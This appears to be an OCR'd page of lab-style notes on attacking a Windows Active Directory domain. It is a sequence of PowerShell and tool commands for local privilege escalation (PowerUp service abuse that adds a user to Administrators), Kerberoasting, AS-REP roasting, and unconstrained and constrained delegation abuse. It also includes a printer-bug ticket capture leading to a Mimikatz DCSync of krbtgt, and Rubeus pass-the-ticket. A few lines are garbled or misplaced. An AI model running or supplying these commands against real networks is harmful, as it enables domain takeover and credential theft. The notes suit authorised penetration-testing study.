### Tools
 [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
```powershell
powershell -ep bypass
. .\powerup.ps1
## Performs all checks
Invoke-AllChecks                                                         
## Get services with unquoted paths and a space in their name
Get-ServiceUnquoted -Verbose                                             
## Get services where the current user can write to its binary path or change arguments to the binary
Get-ModifiableServiceFile -Verbose                                       
## Get the services whose configuration current user can modify
Get-ModifiableService -Verbose                                           
## Let's add our current domain user to the local Administrators group 
Invoke-ServiceAbuse -Name 'software_xxx' -UserName 'corporate\student01'
```
[BeRoot](https://github.com/AlessandroZ/BeRoot/tree/master/Windows)
```powershell
.\beRoot.exe
```
[PrivEsc](https://github.com/enjoiz/Privesc/blob/master/privesc.ps1)
```powershell
powershell -ep bypass
. .\privesc.ps1
Invoke-Privesc
```
#### Kerberoast
```powershell
## Enum with powerview
Get-NetUser SPN
## Request a TGS - Phase 1
Add-Type -AssemblyNAme System.IdentityModel
## Request a TGS - Phase 2
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.corp.corporate.local" 
## Check if the TGS has been granted
klist
## Export and crack the TGS
## Export all tickets
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
#### Targeted Kerberoasting AS REPs
```powershell
## Enumeration with Powerview dev Version
## Enumerating accounts with Kerberos Preauth disabled
Get-DomainUser -PreauthNotRequired -Verbose
## Enumerating the permissions for RDPUsers on ACLs using
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

#### Request encrypted AS REP for offline brute force with John
```powershell
## Request encrypted AS REP
Get-ASREPHash -UserName VPN1user -Verbose
```

#### Targeted Kerberoasting Set SPN
```powershell
## Checking w/ powerview dev version
## Check if user01 already has a SPN
Get-DomainUser -Identity User01 | select serviceprincipalname
## Set a SPN for the user
Set-DomainObject -Identity User01 -Set @{serviceprincipalname='ops/whatever1'}
```

## Kerberos Delegation
#### Unconstrained Delegation
```powershell
## Using Powerview
## Search for domain computers with unconstrained delegation enabled
Get-NetComputer -UnConstrained
## Search for domain computers with unconstrained delegation enabled from property name
Get-NetComputer -Unconstrained | select -ExpandProperty name
## Search for domain computers with unconstrained delegation enabled from property dnshostname
Get-NetComputer -Unconstrained | select -ExpandProperty dnshostname
```

## Printer Bug
```powershell
## Pre-requisites 
Rebeus.exe and MS-RPRN.exe
## Capture the TGT
## Start monitoring for any authentication
.\Rubeus.exe monitor /interval:5 /nowrap

## Run MS-RPRN.exe to abuse the printer bug
.\MS-RPRN.exe \\dcorp.corp.corporate.local \\dcorp-appsrv.corp.corporate.local

## Copy the base64 encoded TGT, remove extra spaces
## Use the ticket
.\Rubeus.exe ptt /ticket:<TGTofCorp>

## DCSync attack against Corp using the injected ticket
## Run DCSync with Mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:corp\krbtgt"'
```

## Constrained Delegation
```powershell
## Pre-requisites
.\keko.exe

## powerview dev
## Users enumeration
Get-DomainUser -TrustedToAuth
## Computers Enumeration
Get-DomainComputer -TrustedToAuth
## Search for domain computers with unconstrained delegation enabled from property dnshostname
Get-NetComputer -Unconstrained | select -ExpandProperty dnshostname

## With keko
## Requesting TGT
tgt::ask /user:<username> /domain:<domain> /rc4:<hash>
## Requesting TGS
/tgt:<tgt> /user:Administrator@<domain> /service:cifs/dcorp-mssql.dollarcorp.moneycorp.local
## Use Mimikatz to inject the TGS
Invoke-Mimikatz -Command '"kerberos::ptt <kirbi file>"'

## With rubeus
## Requesting TGT and TGS
.\Rubeus.exe s4u /user:<username> /rc4:<hash> /impersonateuser:Administrator /msdsspn:"CIFS/<domain>" /ptt
```